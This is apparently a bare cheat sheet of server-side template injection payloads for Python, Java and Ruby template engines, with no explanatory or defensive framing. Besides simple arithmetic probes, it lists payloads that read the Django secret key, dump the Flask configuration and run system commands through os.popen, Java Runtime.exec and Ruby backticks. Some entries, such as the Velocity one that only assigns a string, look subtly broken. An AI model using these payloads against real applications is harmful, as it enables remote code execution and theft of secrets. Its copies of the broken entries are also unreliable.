 ## Python Templating Engines:
Django 
```
{{ 7*7 }}  # Output: 49 (if SSTI exists)
{{ settings.SECRET_KEY }}  # Attempts to access the Django secret key
```
Jinja2 
```
{{ 7*7 }}  # Output: 49
{{ ''.__class__.__mro__[1].__subclasses__() }}  # Leaks classes in Python runtime
{{ config.items() }}  # Dumps Flask app config
```
Mako
```
<% import os %>
${os.popen('id').read()}  # Execute command and read output
${7*7}  # Output: 49
```
## Java Templating Engines:
Freemarker
```
${7*7}  # Output: 49
${''.getClass().forName('java.lang.Runtime').getRuntime().exec('id')}  # Attempts to execute 'id' command
```
Jinjava
```
{{ 7*7 }}  # Output: 49
{{ ''.getClass().forName('java.lang.Runtime').getRuntime().exec('id') }}  # Command execution in Jinjava
```
Apache Velocity
```
#set($foo = "7*7") $foo  # Output: "7*7" or evaluates to 49 if parsed
#set($foo = "''.getClass().forName('java.lang.Runtime').getRuntime().exec('id')")  # Attempts code execution
```
## Ruby Templating Engines:
ERB (Embedded Ruby)
```
<%= 7 * 7 %>  # Output: 49
<%= `id` %>  # Execute command 'id' and output result
```
Slim
```
= 7 * 7  # Output: 49
= `id`  # Executes 'id' command and outputs result
```
